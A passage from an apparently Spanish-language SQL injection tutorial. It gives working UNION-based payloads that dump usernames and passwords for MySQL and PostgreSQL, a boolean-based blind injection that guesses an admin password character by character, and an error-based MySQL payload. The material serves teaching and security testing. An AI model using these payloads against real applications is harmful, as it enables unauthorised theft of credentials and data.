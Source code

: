 MySQL:

```
UNION SELECT CONCAT(username, ':', password) FROM users--
```

PostgreSQL:

```
UNION SELECT username || ':' || password FROM users--
```

O usar agregaciones: `GROUP_CONCAT`, `string_agg`:

```
UNION SELECT GROUP_CONCAT(username,':',password) FROM users--
```

### Notas sobre columnas y tipos

* Si la aplicación espera un número, `UNION` con `NULL` o un `0` puede funcionar.
* Para columnas `TEXT`/`VARCHAR` usar `CONCAT` o funciones de conversión.

---

## Blind SQL Injection

### ¿Qué es?

Cuando la aplicación NO devuelve datos SQL directamente (sin errores visibles ni UNIONs), pero sí refleja cambios en la respuesta según condiciones booleanas o temporales. El atacante infiere información bit a bit.

### 1) Respuestas condicionales (Boolean-based)

Principio: enviar consultas que evalúen a `TRUE` o `FALSE` y observar diferencias en la página (contenido, código HTTP, longitud, comportamiento de JavaScript).

**Ejemplo (boolean-based)**:

```
?id=1 AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
```

Si la página cambia (por ejemplo muestra el producto correctamente sólo cuando la condición es verdadera), entonces sabemos que la primera letra de la contraseña es `a`.

Automatización: herramientas como `sqlmap` o BurpIntruder con payloads recursivos.

### 2) Error-based SQLi

Provocar errores que devuelvan datos en el mensaje de error. Ejemplo MySQL:

```
1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x) a)--
```
